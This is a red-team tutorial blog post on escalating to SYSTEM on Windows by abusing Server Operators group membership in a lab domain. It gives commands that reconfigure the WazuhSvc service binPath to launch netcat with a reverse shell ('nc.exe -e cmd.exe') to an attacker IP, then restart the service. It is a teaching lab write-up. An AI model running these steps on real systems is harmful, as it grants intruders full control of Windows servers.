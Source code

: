```yaml
---
title: "Windows Privilege Escalation Server Operator Group"
date: 2024-02-12 00:00:00 +0000
categories: 
  - Windows Privilege Escalation
  - Active Directory
  - RedTeam
---
```


The Windows Server operating system uses two types of security principals for authentication and authorization: user accounts and computer accounts. These accounts are created to represent physical entities, such as people or computers, and can be used to assign permissions to access resources or perform specific tasks. Additionally, security groups are created to include user accounts, computer accounts, and other groups, in order to make it easier to manage permissions. The system comes pre-configured with certain built-in accounts and security groups, which are equipped with the necessary rights and permissions to carry out functions.

### Introduction to windows privileged groups

In Active Directory, privileged groups are also known as security groups. Security groups are collections of user accounts that have similar security requirements. By placing user accounts into appropriate security groups, administrators can grant or deny access to network resources in bulk. Security groups can be used to grant or deny access to network resources, such as shared folders, printers, and applications. They can also be used to assign permissions to user accounts, such as the ability to create, delete, or modify files.



### What is Server operator group

(Members can modify services, access SMB shares, and backup files)
The Server Operator group is a special user group that often has access to powerful commands and settings on a computer system. This group is typically used for managing a server or for troubleshooting system problems. Server Operators are usually responsible for monitoring the server’s performance, managing system security, and providing technical support to users. They may also oversee installing software updates, creating and maintaining user accounts, and performing routine maintenance tasks.

### Lab Configuration

[![Image Alt Text](/assets/img/posts/Windows Privilege Escalation/Server Operator/2024-02-12-1.png)](https://r00tven0m.github.io/)

Let’s configure the lab on the server to apply theory and escalated windows server privileges. Go to server manager dashboard then click on “**Tools**” then select “**Active Directory Users and Computers**”

We are going to add a user aarti to the active directory security group for the demonstration. To do that, go to **“users**” select “**carole.rose**” and click on “**properties**”.

[![Image Alt Text](/assets/img/posts/Windows Privilege Escalation/Server Operator/2024-02-12-2.png)](https://r00tven0m.github.io/)
That will open a new window where we need to click on the “ **member of** “ tab and then click on the “**add**” button to add user to any specific group.

[![Image Alt Text](/assets/img/posts/Windows Privilege Escalation/Server Operator/2024-02-12-3.png)](https://r00tven0m.github.io/)


A new window will open where we need to select object types as “**Groups or Built-in security principals**” and select location to domain name which is “**cbank. local**” here. Then, we need to enter object name which is the group to that we wish to add user to. In this case, we are using the **server operators’** group then click ok.

[![Image Alt Text](/assets/img/posts/Windows Privilege Escalation/Server Operator/2024-02-12-4.png)](https://r00tven0m.github.io/)


We can verify whether a user is added to the server operators’ group by simply clicking on the **members of** tab. We can see that we have successfully added user carole.rose to server operators’ group.

[![Image Alt Text](/assets/img/posts/Windows Privilege Escalation/Server Operator/2024-02-12-5.png)](https://r00tven0m.github.io/)


We end up with our lab set up here and logged in as low privileged user in the server where we can see user carole.rose is in the server operators’ group. In this example, we have connected to the compromised host using the winrm service using the evil-winrm tool. To check group permission, we can simply use the inbuilt command "net user username", it will show what groups the current user belongs to. To reproduce the concept, please follow the commands below
[![Image Alt Text](/assets/img/posts/Windows Privilege Escalation/Server Operator/2024-02-12-6.png)](https://r00tven0m.github.io/)


Being a member of server operator group is not a vulnerability, but the member of this group has special privileges to make changes in the domain which could lead an attacker to escalate to system privilege. We listed services running on the server by issuing “**services**” command in our terminal where we can see list of services are there. Then we noted the service name “**WazuhSvc**” and service binary path for lateral usage.

[![Image Alt Text](/assets/img/posts/Windows Privilege Escalation/Server Operator/2024-02-12-7.png)](https://r00tven0m.github.io/)

### Exploitation

Then we transferred **netcat.exe** binary to the compromised host and changed the binary path of the service. The reason we are changing the binary path is to receive a reverse connection as system user from the compromised hosts.

**How it works?**

When we start any service then it will execute the binary from its binary path so if we replace the service binary with netcat or reverse shell binary then it will give us a reverse shell as a system user because the service is starting as a system on the compromised host. Please note, we need to specify the attacker’s IP address and listening port number with the netcat binary.

Steps to reproduce the POC:

```bash
upload nc.exe
sc.exe config WazuhSvc binPath="C:\Users\carole.rose.CBANK\Documents\nc.exe -e cmd.exe 192.168.56.1 9001"
```
[![Image Alt Text](/assets/img/posts/Windows Privilege Escalation/Server Operator/2024-02-12-8.png)](https://r00tven0m.github.io/)

Then we will stop the service and start it again. So, this time when service starts, it will execute the binary that we have set in set earlier. Please, set up a netcat listener on the kali system to receive system shell before starting service and service start and stop commands from compromised hosts.

```bash
nc -nvlp 9001
sc.exe stop WazuhSvc
sc.exe start WazuhSvc
```
[![Image Alt Text](/assets/img/posts/Windows Privilege Escalation/Server Operator/2024-02-12-9.png)](https://r00tven0m.github.io/)

We have received a reverse shell from the compromised host as **nt authority\system**. To verify it simply run “**whoami**” command.


[![Image Alt Text](/assets/img/posts/Windows Privilege Escalation/Server Operator/2024-02-12-10.png)](https://r00tven0m.github.io/)
